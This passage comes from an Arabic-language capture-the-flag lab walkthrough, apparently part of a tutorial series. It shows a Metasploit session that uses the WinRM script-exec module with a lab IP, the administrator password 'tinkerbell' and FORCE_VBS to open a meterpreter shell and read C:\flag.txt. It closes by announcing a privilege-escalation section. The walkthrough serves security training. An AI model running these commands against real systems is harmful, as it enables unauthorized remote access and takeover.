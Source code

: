 نشوف انه عطانا النتيجة الان وشغال تمام 

الان بنشوف موديول اخير وظيفته انه يعطينا meterpreter shell
الان بشنغل الفريم وورك
[msfconsole]
ونستخدم هذا الموديول
[use exploit/windows/winrm/winrm_script_exec]
والان نشوف وش المتغيرات المطلوبه مننا عن طريق هذا الامر
[show options]
نشوف انه طالب مننا RHOST , USERNAME ,PASSWORD 
نعطيه قيم المتغيرات
[set RHOSTS 10.0.0.173]
[set USERNAME administrator]
[set PASSWORD tinkerbell]
[set FORCE_VBS true] هذا وظيفته فيه شي زي البايلود يعني ياخذ الشيل عن  طريق يعني يسوي لك ملف exe ويشغله لك 
[exploit] or [run]

والان نشوف انه عطانا meterpreter shell ونقدر ننفذ الاوامر بكل سهوله
طبعا مطلوب مننا نجيب الفلاق ونعرف انه في مسار الـ C:\flag.txt
[cd /] عشان نروح لاول مسار او الهارد من البداية الي هو الـ C
[cat flag.txt] الان قريناالفلاق

---

الى هنا انتهينا طبعا بكرا باذن الله راح ندخل قسم جديد الي هو Privilege Escalation
نلقاكم بكرا باذن الله


@s4cript | @cyberhub | @0xNawaF1
